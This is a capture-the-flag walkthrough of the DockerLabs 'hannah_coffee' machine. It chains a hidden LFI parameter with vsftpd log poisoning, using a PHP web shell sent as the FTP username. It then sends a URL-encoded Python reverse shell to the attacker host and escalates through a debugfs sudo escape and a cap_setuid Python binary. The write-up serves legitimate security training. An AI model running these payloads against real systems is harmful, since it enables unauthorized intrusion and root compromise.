# hannah_coffee

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| hannah_coffee | noneofyour | Fácil | dockerlabs |

**Summary:** The hannah_coffee machine exposed a small PHP site on port 80 and a vsftpd service on port 21. The site's navigation uses a whitelisted `page` parameter, which behaves safely, but `index.php` also accepts a `studio` parameter that flows unsanitised into `include()`. Fuzzing the parameter name and then the value against an LFI wordlist turned up `/var/log/vsftpd.log`, a file the web user can read and the FTP daemon appends to on every connection — including the username supplied by the client. Poisoning the username field wrote PHP code into the log, and requesting that log through the inclusion executed it, yielding command execution as `www-data`. From there a passwordless `debugfs` sudo rule let the attacker read `/opt/hannah_disk.img` directly, exposing a base92-encoded secret that decoded to `hannah`'s password, and a `cap_setuid` Python binary in `/opt` carried the session to root.

---

## Reconnaissance

The machine was deployed with the platform's standard script and came up on the Docker bridge at `172.17.0.2`.

**1.** Deploy the container and record the assigned address:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/mnt/d/b2r_labs]
└─$ sudo bash auto_deploy.sh hannah-coffee.tar
[sudo] password for ouba:

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```



**2.** Scan the target with service and default-script detection across all TCP ports:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ nmap -sC -sV -p- -T4 172.17.0.2
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 17:36 +0700
Nmap scan report for 172.17.0.2 (172.17.0.2)
Host is up (0.000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
80/tcp open  http    Apache httpd 2.4.68 ((Debian))
|_http-server-header: Apache/2.4.68 (Debian)
|_http-title: Hannah's Coffee
MAC Address: AE:8F:5E:07:62:FE (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.o
rg/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.46 seconds
```

Two services: **FTP** on 21 running vsftpd 3.0.5, and **HTTP** on 80 running Apache 2.4.68 serving an application titled "Hannah's Coffee".



**3.** Visit the site. It is a small coffee shop page with Home, Menu, About and Contact sections.



**4.** Follow the navigation. Every link is `index.php?page=<name>`, so the parameter name is visible before any guessing:



**5.** Fuzz the parameter *name* rather than its value, using a known file path as the payload and filtering the 963-byte response that the application returns for unknown parameters:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" \
  -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2067directory-list-2.3-medium.txt \
  -ic -fs 963
...
studio                  [Status: 200, Size: 637, Words: 145, Lines: 25, Duration: 16ms]
:: Progress: [52142/226546] :: Job [1/1] :: 2083 req/sec :: Duration: [0:06:16] :: Errors: 0
```

`studio` returns a 637-byte body where every other name returns 963 — a different response means the parameter is actually consumed. It is not one of the four keys in the page whitelist, and the homepage copy mentioning a "Roasting Studio" explains why it exists.



**6.** With the parameter known, request a file that must exist:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl -s "http://172.17.0.2/index.php?studio=/etc/passwd"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hannah's Coffee</title>
    <link rel="stylesheet" href="style.css">
</head>
<body>
    <header class="navbar">
        <h1>☕ Hannah's Coffee</h1>
        <nav>
            <a href="index.php?page=home">Home</a>
            <a href="index.php?page=menu">Menu</a>
            <a href="index.php?page=about">About</a>
            <a href="index.php?page=contact">Contact</a>
        </nav>
    </header>
    <main class="content">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

The file is echoed into the page body, confirming local file inclusion. Reading the application source shows the mechanism: `page` is mapped through an allowlist, while a separate `if (isset($_GET['studio']))` assigns the raw value to the variable that `include()` later consumes.



**7.** Enumerate file paths with the same parameter against a dedicated LFI wordlist, filtering the 637-byte baseline:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ffuf -u "http://172.17.0.2/index.php?studio=FUZZ" \
  -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -ic -fs 637
...
/etc/passwd             [Status: 200, Size: 1896, Words: 154, Lines: 50, Duration: 1ms]
/etc/apache2/apache2.conf [Status: 200, Size: 7815, Words: 1679, Lines: 250, Duration: 0ms]
/etc/crontab            [Status: 200, Size: 1679, Words: 321, Lines: 67, Duration: 1ms]
/etc/group              [Status: 200, Size: 1253, Words: 145, Lines: 73, Duration: 1ms]
/etc/hosts              [Status: 200, Size: 809, Words: 147, Lines: 32, Duration: 0ms]
...
/proc/mounts            [Status: 200, Size: 3759, Words: 265, Lines: 49, Duration: 6ms]
/proc/self/cmdline      [Status: 200, Size: 669, Words: 145, Lines: 25, Duration: 5ms]
/var/log/vsftpd.log     [Status: 200, Size: 1707, Words: 313, Lines: 41, Duration: 5ms]
:: Progress: [930/930] :: Job [1/1] :: 50 req/sec :: Duration: [0:00:04] :: Errors: 0
```

Two results matter: the vsftpd configuration, and a log file the web user can read.





**8.** Confirm the log can be fetched through the inclusion and note its verbose format:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl -s "http://172.17.0.2/index.php?studio=/var/log/vsftpd.log"
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Hannah's Coffee</title>
    ...
    <main class="content">
    Thu Aug  6 10:36:19 2026 [pid 17] CONNECT: Client "172.17.0.1"
Thu Aug  6 10:36:25 2026 [pid 20] CONNECT: Client "172.17.0.1"
Thu Aug  6 10:36:25 2026 [pid 19] [anonymous] FAIL LOGIN: Client "172.17.0.1"
Thu Aug  6 10:36:28 2026 [pid 23] CONNECT: Client "172.17.0.1"
Thu Aug  6 10:36:41 2026 [pid 41] CONNECT: Client "172.17.0.1"
    </main>
```

`xferlog_std_format=NO` in the configuration means the daemon writes its own verbose format rather than the classic transfer log. That format echoes the client-supplied username on the `FAIL LOGIN` lines, which is exactly the injection surface needed next. The log is readable through the inclusion and appended to by anyone the daemon accepts a connection from.



---

## Initial Access

**9.** Connect to FTP and fail a login using a junk username, to see exactly what the daemon records:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:ouba): enorumoushayla
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
```



**10.** Read the log back through the inclusion. The username appears in the record:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl -s "http://172.17.0.2/index.php?studio=/var/log/vsftpd.log" | grep "enorumoushayla"
Thu Aug  6 10:46:14 2026 [pid 141] [enorumoushayla] FAIL LOGIN: Client "172.17.0.1"
```

One attempt writes one controllable line into a file the web application will parse as PHP.



**11.** Poison the log by placing PHP code in the username field, then request the log through the `studio` parameter with a command argument:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:ouba): <?php system($_GET['cmd']); ?>
331 Please specify the password.
Password:
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl -s "http://172.17.0.2/index.php?studio=/var/log/vsftpd.log&cmd=id" | grep id
Thu Aug  6 11:14:11 2026 [pid 144] [uid=33(www-data) gid=33(www-data) groups=33(www-data)] FAIL LOGIN: Client "172.17.0.1"
```

The `id` output is embedded in the log line itself: the username written by FTP became the executed PHP.



**12.** Move to a reverse shell. The payload is delivered URL-encoded inside the `cmd` value so no shell metacharacters have to survive the query string, and it is caught with netcat:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl]
└─$ curl -s "http://172.17.0.2/index.php?studio=/var/log/vsftpd.log&cmd=python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22172.17.0.1%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3Bos.system%28%22/bin/bash%22%29%27"

┌──(ouba㉿CLIENT-DESKTOP)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 52530
www-data@18f71feda7e2:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@18f71feda7e2:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@18f71feda7e2:/var/www/html$
```

The shell is stabilised with a PTY so that `sudo` can prompt and interactive commands behave normally.



---

## Privilege Escalation

**13.** Enumerate the sudo policy for the web user:

```bash
www-data@18f71feda7e2:/var/www/html$ sudo -l
Matching Defaults entries for www-data on 18f71feda7e2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin,
    use_pty

User www-data may run the following commands on 18f71feda7e2:
    (hannah) NOPASSWD: /sbin/debugfs -w /opt/hannah_disk.img
```

`debugfs` is a filesystem debugger, and the rule grants write access to an ext4 image. Note the run-as target is `hannah`, not root: this is a horizontal step that provides file reads inside the image.



**14.** Open the image with the permitted command, list its root directory, and read the file of interest:

```bash
www-data@18f71feda7e2:/var/www/html$ sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
debugfs 1.47.2 (1-Jan-2025)
debugfs:  ls
2  (12) .    2  (12) ..    11  (20) lost+found
13  (968) hannah_secret.txt
debugfs:  cat hannah_secret.txt
G'2'ZkcHsulI*vE+D,
debugfs:  quit
```

The string is not base64 — it contains `'` and `*`, which that alphabet does not use. Decoding it as base92 produces a password:



**15.** Use the recovered password to move to the `hannah` account:

```bash
www-data@18f71feda7e2:/var/www/html$ su - hannah
Password:
hannah@18f71feda7e2:~$
```



**16.** The password is not required for the horizontal move: `debugfs` implements `!` as a shell escape, and the shell inherits the UID the debugger runs as, which the sudo rule pins to `hannah`:

```bash
www-data@18f71feda7e2:/var/www/html$ sudo -u hannah /sbin/debugfs -w /opt/hannah_disk.img
debugfs 1.47.2 (1-Jan-2025)
debugfs:  !/bin/bash
hannah@18f71feda7e2:/var/www/html$ id
uid=1001(hannah) gid=1001(hannah) groups=1001(hannah)
```



**17.** Confirm the identity and read the user flag from the home directory:

```bash
hannah@18f71feda7e2:~$ id
uid=1001(hannah) gid=1001(hannah) groups=1001(hannah)
hannah@18f71feda7e2:~$ cat user.txt
```



**18.** Enumerate file capabilities; a capability on an interpreter is a direct path to root:

```bash
hannah@18f71feda7e2:~$ getcap -r / 2>/dev/null
/opt/priv-python cap_setuid=ep
hannah@18f71feda7e2:~$ ls -la /opt/priv-python
-rwxr-x--- 1 root hannah 6812336 Aug  6 08:46 /opt/priv-python
```

The binary is mode `750` and group-owned by `hannah`, so this account can execute it even though it belongs to root. Because the process may call `setuid`, a Python one-liner raises its own UID to 0. The gid stays at `hannah`'s until `su -` resets the environment:

```bash
hannah@18f71feda7e2:~$ /opt/priv-python -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@18f71feda7e2:~# id
uid=0(root) gid=1001(hannah) groups=1001(hannah)
root@18f71feda7e2:~# su -
root@18f71feda7e2:~# id
uid=0(root) gid=0(root) groups=0(root)
root@18f71feda7e2:~# cat root.txt
```



---

## Attack Chain Summary

- **Reconnaissance** — nmap found vsftpd 3.0.5 on 21 and Apache 2.4.68 on 80 serving "Hannah's Coffee".
- **Vulnerability discovery** — the `page` parameter is whitelisted and safe; fuzzing parameter names with a known file path revealed the sibling `studio` parameter, whose value reaches `include()` unmodified.
- **Read to write primitive** — `/var/log/vsftpd.log` is readable through the inclusion and appended to on every FTP login, with the client-supplied username included verbatim.
- **Initial access** — a PHP payload placed in the username field was written into the log and executed when the log was included, giving command execution as `www-data` and then a stabilised reverse shell.
- **Lateral movement** — a passwordless `sudo debugfs -w /opt/hannah_disk.img` rule exposed a base92-encoded secret that decoded to `hannah`'s password; the `debugfs` `!` escape reached the same account without needing it.
- **Privilege escalation** — `/opt/priv-python` carried `cap_setuid=ep`, so setting UID 0 from Python produced a root shell.
